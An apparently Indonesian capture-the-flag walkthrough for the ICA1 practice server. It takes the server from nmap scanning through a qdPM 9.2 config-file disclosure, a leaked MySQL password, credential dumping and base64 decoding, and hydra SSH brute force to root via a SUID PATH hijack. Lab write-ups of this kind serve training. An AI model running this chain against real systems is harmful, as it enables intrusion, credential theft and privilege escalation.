 # Laporan Serangan Server ICA1

Ini adalah hasil serangan yang telah dilakukan pada server ICA1 untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server ICA1: `ping <ip_server>`

## Scan Port Server dengan NMAP
- nmap : `nmap -sC -sV -p- <ip_server>`

**Port** yang terbuka dari server adalah :
- ssh (22)
- http (80)
- mysql (3306) 
- mysqlx (33060)

## Access HTTP (80)
- web login menggunakan qdPM 9.2
- coba cari exploit qdPM 9.2
```
searchsploit qdPM 9.2
```
- access exploit
```
cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
```
- terapkan exploit : `wget http://<ip_server>/core/config/databases.yml`


## Access MYSQL (3306)
- login mysql : `mysql -u qdpmadmin -h <ip_server> -p`
- password : `UcVQCMQk2STVeS6J`
```
show databases;
```
```
use staff;
```
```
show tables;
```
```
select * from login;
```
```
select password from login;
```
- simpan hasil password pada file : `pass_hash.txt`
- simpan hasil username pada file : `username.txt`
```
select * from user;
```
```
select name from user;
```
- decode hash pada file `pass_hash.txt`
```
while read anangLine; do echo "$anangLine" | base64 --decode; echo ""; done < pass_hash.txt
```
- buat file `pass.txt` yang berisi hasil output decode
- ubah username menjadi lower
```
while read anangLine; do echo "$anangLine" | tr '[:upper:]' '[:lower:]'; echo ""; done < username.txt
```
- ubah file `username.txt` dengan hasil output





## Access SSH (22)
gunakan hydra untuk  menemukan user dan password
```
hydra -L username.txt -P pass.txt ssh://<ip_server>
```
- login user **travis** : `ssh travis@<ip_server>`
- login juga user **dexter** : `ssh dexter@<ip_server>`
- masing masing password hasil dari hydra
- pada user travis, **flag user**
```
cat user.txt
```
- pada user dexter
```
cat note.txt
```




## Privilege Escalation
- cari yang berhubungan dengan root
```
find / -perm -u=s 2>/dev/null
```
- jalankan
```
/opt/get_access
```
- jika tidak bisa (serivce are disabled), maka ubah path
```
echo $PATH
```
```
echo '/bin/bash' >> /tmp/myroot
```
```
export PATH=/tmp:$PATH
```
```
echo $PATH
```
- maka path sudah berubah menjadi `/tmp: . . .`

- ubah mode **myroot**
```
chmod +x /tmp/myroot
```
- jalankan get_access lagi
```
/opt/get_access
```
- temukan **flag root**
```
cat /root/root.txt
```